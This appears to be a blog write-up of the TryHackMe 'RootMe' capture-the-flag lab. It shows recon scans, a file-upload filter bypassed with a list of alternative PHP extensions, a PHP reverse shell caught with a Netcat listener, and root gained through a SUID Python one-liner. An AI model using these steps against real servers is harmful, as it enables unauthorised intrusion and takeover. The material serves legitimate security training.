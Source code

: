 ```yaml
---
title: TryHackMe - Rootme
date: 2025-01-15 20:00:00 +0530
categories: [TryHackMe, CTF]
tags: [php,file upload vulnerability,privilege escalation]     
description: Exploited a simple file upload vulnerability to gain a reverse shell and used SUID to escalate privileges
# toc: false
comments: false
# pin: true
---
```


## Recon

### namp scan
First, I obtained an IP address, let’s assume 10.10.11.11. With only the IP address in hand, the first step is to perform an Nmap scan to identify the open ports on the target.

```bash
blackm4c:~ nmap -sVC 10.10.11.11

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-14 20:00 IST
Nmap scan report for 10.10.11.11
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

Using an Nmap port scan, I discovered two open ports: `port 22 (SSH)` and port `80 (HTTP)`. Since port 80 is open, it indicates a web server is running. Let’s explore the website to gather more information.

## Website Recon

After inspecting the website, I found it to be just a static page with nothing interesting. I checked the page cookies, but no cookies were set. Then, I reviewed the page source code, which revealed two directories: `/css/` and `/js/`. After examining the CSS and JS files, I found nothing of interest, so I decided to explore further by performing a directory brute force scan using Gobuster to uncover hidden directories.

### Directory Brute Force with Gobuster

```bash
blackm4c:~ gobuster dir -u http://10.10.11.11 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.11
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 316] [--> http://10.10.11.11/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.11.11/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.11.11/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.11.11/panel/]
Progress: 220561 / 220561 (100%)
===============================================================
Finished
===============================================================

```
{: .nolineno}
The scan revealed two interesting directories: `/uploads` and `/panel`. I navigated to the `/panel` directory and found a file upload functionality. My first thought was to test for file upload vulnerabilities.

## Exploitation

I uploaded various files, and the application accepted image files and text files. After uploading, a message appeared with a link to check the file. Clicking the link displayed the uploaded file in the `/uploads/` directory, e.g., `/uploads/image.png`.

Next, I tried uploading a PHP file, but it was rejected with a message saying PHP files were not allowed. To bypass this restriction, I researched file upload bypass techniques and found a list of alternative `PHP` extensions that could be accepted by the server:

### PHP File Upload Restriction Bypass
```
PHP -> php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc
```

I renamed my PHP file to use the .php5 extension. Using a PHP reverse shell script from [github](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), I modified the IP and port to match my machine. After uploading the .php5 file, I checked the /uploads directory and confirmed that the file was successfully uploaded.

I started a Netcat listener and accessed the uploaded PHP file to trigger the reverse shell.

### Reverse Shell with PHP
```bash
blackm4c:~ nc -lvnp 5555

listening on [any] 5555 ...
connect to [10.17.134.111] from (UNKNOWN) [10.10.11.11] 51072
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:12:04 up 43 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
{: .nolineno}

After gaining shell access as the `www-data` user, I checked the `/home` directory for the `user.txt` file but found nothing. I used the find command to locate it:

```bash
$ find / -type f -name user.txt 2> /dev/null
/var/www/user.txt
```
{: .nolineno}
The `user.txt` file was located in the `/var/www/` directory.

## Privilage Escapulation

To escalate privileges, I first checked for sudo permissions using `sudo -l`, but it required a password. Next, I searched for programs with the `SUID` bit set:

```bash
$ find / -user root -perm /4000 2> /dev/null
.
.
.
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
.
.
.
```
{: .nolineno}

Among the results, I noticed the Python binary. I referred to [gtfobins](https://gtfobins.github.io/) for a privilege escalation exploit and found the following command:

### Python SUID Exploitation for Privilege Escalation
```bash
$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

#whomai
root
```
{: .nolineno}

Executing this command gave me a root shell. I navigated to the `/root` directory and retrieved the `root.txt` file.

## Conclusion

This challenge involved identifying open ports, inspecting web applications, exploiting file upload vulnerabilities, and performing privilege escalation to gain root access. It demonstrates the importance of securing web servers, validating file uploads, and managing permissions for binaries with elevated privileges.

## Reference

- <https://portswigger.net/web-security/file-upload>
- <https://gtfobins.github.io/gtfobins/python/>
- <https://www.redhat.com/en/blog/suid-sgid-sticky-bit>



